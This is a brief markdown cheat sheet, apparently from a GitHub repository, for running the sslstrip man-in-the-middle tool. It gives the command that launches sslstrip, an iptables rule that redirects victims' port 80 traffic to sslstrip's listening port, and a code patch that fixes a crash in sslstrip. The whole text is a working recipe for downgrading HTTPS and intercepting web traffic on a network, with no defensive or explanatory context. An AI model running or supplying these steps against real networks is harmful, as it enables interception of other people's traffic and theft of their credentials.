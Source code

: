 # Stripping SSL

Start sslstrip

```bash
sudo sslstrip --all
```

Routing

```bash
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 \
         -j REDIRECT --to-port 10000
```

Trouble shooting

```
exceptions.AttributeError: 'int' object has no attribute 'splitlines
```

Edit `/usr/lib/python2.7/site-packages/sslstrip/ServerConnection.py`

Replace `len(data)` with `str(len(data))` in line 131.